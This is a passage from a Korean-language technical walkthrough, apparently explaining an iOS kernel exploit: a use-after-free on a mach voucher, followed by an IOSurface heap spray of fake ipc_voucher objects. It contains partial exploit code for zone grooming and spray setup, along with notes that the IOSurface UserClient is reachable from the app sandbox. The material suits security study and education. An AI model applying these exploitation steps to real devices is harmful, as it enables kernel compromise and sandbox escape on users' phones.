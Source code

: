 ```cpp
        ret = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &before[i]);
    }
    
    /* alloc our target uaf voucher */
    mach_port_t p1;
    ret = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &p1);
    
    /* allocate 0x1000 more vouchers */
    for (int i = 0; i < sizeof(after) / sizeof(mach_port_t); i++)
    {
        ret = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &after[i]);
    }

    /*
        theoretically, we should now have 3 blocks of memory (roughly) as so:
        |--------------------|-------------|------------------|
        |     ipc ports      | target port |  more ipc ports  |
        |--------------------|-------------|------------------| 
                             ^             ^
                              page with only our controlled ports
                              
바라건대 우리의 목표 포트는 이제 우리가 제어하는 포트들만 포함하는 페이지에 할당되어 있을 것이다. 이는 우리가 모든 포트를 해제할 때 해당 페이지의 모든 할당이 해제되고, GC를 트리거하면 그 페이지가 ipc_ports 존에서 반환되어 kalloc에서 재사용된다는 뜻이다. 이로써 IOSurface를 통해 다른 kalloc 영역(예: kalloc.1024)에 가짜 voucher들을 스프레이할 수 있고, 그 결과 voucher의 댕글링 포인터가 우리의 할당 중 하나와 겹치게 된다.
    */
```

### IOSurface를 활용한 힙 스프레이

모든 것이 계획대로 진행되었다면, 이 시점에서 GC가 트리거되어 페이지가 할당 풀로 반환될 것이다. 
그런 다음 우리는 가짜 바우처를 커널로 전송하고 해제된 바우처를 교체하기 위해 힙 스프레이를 계속 진행할 수 있다. 이를 위해 "IOSurface" kext(커널 확장)에서 구현된 IOKit UserClient를 사용할 수 있다.  IOKit은 드라이버와 확장을 처리하는 커널 인터페이스이며, UserClient는 사용자가 커널 확장에 명령을 보낼 수 있도록 하는 객체이다. IOSurface는 그래픽 버퍼의 처리 및 계산을 위한 kext이지만, 두 가지 이유로 인해 우리에게 훌륭한 힙 스프레이 프리미티브를 제공한다.

첫째, IOSurface(특히 "set value" 메서드)는 배열(OSArray), 딕셔너리(OSDictionary), 문자열(OSString) 등과 같은 객체를 포함하는 인코딩된 plist(속성 목록)를 제공할 수 있게 해준디. 이 객체들 안에 우리는 완전히 임의의 데이터를 넣을 수 있다(예: 중첩된 타입, 즉 배열 안에 딕셔너리). 

둘째, IOSurface UserClient는 앱 샌드박스에서 접근 가능하며, 권한 부여나 권한 검사 또는 샌드박스에서의 차단이 없다. 데이터를 스프레이하기 위해, 우리는 OSString으로 구성된 서페이스(surface)를 만들 수 있다. 하나의 서페이스(surface)를 설정한 후, 하나의 OSString을 스프레이하려는 항목으로 포함하는 딕셔너리가 포함된 배열을 사용한다. OSString은 크기가 얼마든지 될 수 있지만, 우리는 전체 페이지 크기만큼 데이터를 채우고자 한다. 4k 장치에서는 페이지 크기가 0x1000(4096)이고, 16k 장치에서는 0x4000(16,384)이다. OSString의 "문자열" 부분 때문에, 우리의 데이터는 NULL 바이트로 종료되어야 하므로, 크기 계산 시 이를 고려해야 한다. 

아래 코드는  OSUnserializeBinary XML Spraying 원리를 이용하여 서페이스에 설정될 데이터(따라서 커널 메모리에 스프레이될 데이터)를 설정하며, bcopy 루프는 각 OSString에 가짜 ipc_vouchers를 채운다.

```cpp
int main(int argc, char *argv[], char *envp[]) {
		IOSurface_init();
...
    /* set up our IOSurface data for spraying */
#define FILL_MEMSIZE 0x4000000
    int spray_qty = FILL_MEMSIZE / pagesize; /* # of pages to spray */ 
    
    int spray_size = (5 * sizeof(uint32_t)) + (spray_qty * ((4 * sizeof(uint32_t)) + pagesize));
    uint32_t *spray_data = malloc(spray_size); // header + (spray_qty * (item_header + pgsize))

    build_IOSurface_spray_data(&fake_voucher, sizeof(fake_ipc_voucher_t), spray_qty, spray_data, spray_size);
    ...
}

```